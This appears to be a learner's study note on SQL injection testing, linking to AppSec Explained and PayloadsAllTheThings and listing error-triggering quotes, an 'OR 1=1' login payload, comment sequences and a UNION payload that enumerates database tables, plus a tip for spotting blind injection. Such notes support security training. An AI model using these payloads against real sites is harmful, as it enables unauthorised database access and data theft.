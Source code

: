 Find behavior of the website with inputs
https://appsecexplained.gitbook.io/appsecexplained
https://github.com/swisskyrepo/PayloadsAllTheThings/

# SQL Injection
----
- **Detection:**
	- `', ", ;` (single and double quotes) to trigger an error
	- `jeremy'`, `jeremy' OR 1=1#`(Logical Operators)
	- `-- -`, `#`, `--` (Comments)
- **Types:**
	- **==Union==**
		- [[UNION injection]]
		- `jeremy' UNION select NULL,NULL,table_name from information_schema.tables#`
	- ==**Blind Injection**==
		- [[BLIND injection part - 1]]
		- [[Lab - 2 Blind, Out of Band]]
		-  Pay **attention to ==`content-length` or `search` in response**== (in burp or browser).